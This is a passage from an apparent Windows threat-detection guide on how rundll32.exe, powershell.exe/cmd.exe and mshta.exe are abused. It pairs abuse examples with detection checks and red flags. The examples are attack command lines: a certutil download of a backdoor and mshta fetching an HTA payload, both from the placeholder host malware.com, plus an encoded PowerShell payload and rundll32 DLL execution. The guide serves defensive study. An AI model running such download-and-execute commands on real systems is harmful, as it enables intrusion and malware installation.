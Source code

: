 ### **Malicious Abuse:**
- **Malicious DLL Execution:**  
  - `rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ..."` (APT attacks).  
  - `rundll32.exe C:\malware\payload.dll,Start`  

### **Detection:**
✅ **Check:**  
- **Command-Line Analysis** (Legitimate: `user32.dll` | Malicious: `malware.dll`).  
- **DLL Loaded from `AppData` or `Temp`.**  

🔴 **Red Flags:**  
- `rundll32.exe` running from non-`System32`.  

---

## **7. `powershell.exe` / `cmd.exe`**
### **Legitimate Behavior:**
- **Location:** `C:\Windows\System32\`  
- **Purpose:** Script execution, automation.  

### **Malicious Abuse:**
- **Obfuscated Commands:**  
  - `powershell -e JABzAD0AJwB3AGkAbgAzADIAJwA7...` (Base64-encoded payload).  
  - `cmd.exe /c certutil -urlcache -split -f http://malware.com/backdoor.exe`  

### **Detection:**
✅ **Check:**  
- **Command-Line Logging** (Enable **PowerShell Script Block Logging**).  
- **Sysmon Event ID 1** (Process creation).  

🔴 **Red Flags:**  
- Long, encoded commands.  
- `cmd.exe` spawning from `msiexec.exe` or `word.exe`.  

---

## **8. `mshta.exe` (Executes HTA Files)**
### **Legitimate Behavior:**
- **Location:** `C:\Windows\System32\mshta.exe`  
- **Purpose:** Runs `.hta` (HTML Application) files.  

### **Malicious Abuse:**
- **Malicious HTA Execution:**  
  - `mshta.exe http://malware.com/payload.hta`  
  - Used in **phishing & drive-by downloads**.  

### **Detection:**
✅ **Check:**  
- **Process Explorer** (Check parent process).  
- **Network Connections** (HTA fetching external payloads).  
